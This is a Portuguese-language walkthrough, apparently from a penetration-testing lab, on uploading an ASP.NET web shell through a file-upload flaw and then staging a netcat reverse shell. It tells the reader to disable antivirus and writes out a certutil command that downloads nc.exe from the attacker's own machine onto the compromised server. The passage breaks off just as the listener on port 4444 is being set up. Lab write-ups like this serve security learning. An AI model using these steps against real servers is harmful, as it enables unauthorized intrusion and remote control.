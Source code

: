# Depois de levantar informações especificas como o lugar ontem tem uma falha para upar arquivos e deletar , o lugar onde essee arquivos ficam armazenados e ainda conseguir acessar ele.

## Resumindo tudo favoravel para subir o shell

## Contexto para subir o shell sabendo a tecnologia do site que é ASP NET eu posso ta procurando um Shell que seja ASPNET.aspx upar no servidor e acessar ele e conseguir injetar comandos 
## 1° - Procurar no google o SHell : github: shell for ASP.aspx 
## 2° - Desligar o antivirus do computador
![image](https://github.com/user-attachments/assets/d7a9b6dd-d1a3-463e-a716-488dfa836c1a)
## 3° - salvar esse shell no arquivo .aspx
![image](https://github.com/user-attachments/assets/bf04650c-c0af-4cfc-81c8-9d19ef13cf80)
## com ele em mãos é so subir no servidor e acessar
## acessando o local onde descobrimos no DIRSEARCH que é o magnam que faz o trabalho do banco de dados
![image](https://github.com/user-attachments/assets/b4f7bf34-f8f4-40a1-b90b-32065c645192)
## upando arquivo
![image](https://github.com/user-attachments/assets/f4923442-491e-49ad-9738-48ca914b4726)
## arquivo UPADO só acessa agora
![image](https://github.com/user-attachments/assets/0afbee35-4be9-4f1b-acad-2c5cac33dce3)
## acessando o arquivo 
![image](https://github.com/user-attachments/assets/634bf72b-4d67-446c-8acc-9bc82da34bbb)
## shell.aspx subiu porem voce ainda nao tem cotrole total para navegar nos diretorios para fazer um enumeração de arquivos
## proximo passo é baixar o nc.exe e colocar em uma pasta no seu propio windons instalar o python criar uma pasta colocar o arquivo nc.exe lá dentro e dai iniciar o servidor python com o nc.exe disponivel para dowload
![image](https://github.com/user-attachments/assets/0b399e9c-440c-48b4-b4c5-8434dad98986)
## coloquei em uma pasta com o nome "Nova Pasta" e inciei o servidor pyhton pelo cmd do meu windons
![image](https://github.com/user-attachments/assets/919c4e88-32e4-4459-adcb-700e80e462e0)
## agora para baixar usando o shell que eu subi vai ser usado o comando:
```txt
  certutil -urlcache -split -f http://192.168.100.168/nc.exe c:\users\public\nc.exe

    o Certutil serve para baixar arquivos em um windons e como esta em um server http só vai ser preciso colocar a url,
    com o endereço de ip do meu computador windons e o arquivo que vai ser baixado que é o nc.exe,
    e dai ele vai salvar no users public que qualqr um tem acesso com o nome de nc.exe
```
## depois de rodar o comando vai dizer que deu sucesso:
![image](https://github.com/user-attachments/assets/20dfd46a-d056-4dd6-ad33-0ae350bcd4a4)
## agora é so verificar se realmente ele foi baixado na pasta publica (ele está lá):
![image](https://github.com/user-attachments/assets/7a58ca23-e926-482a-bac3-34088934c625)
## arquivo upado precisamos acessar a shell do nosso kali ( colocamos o nc para escutar na porta 4444 ):



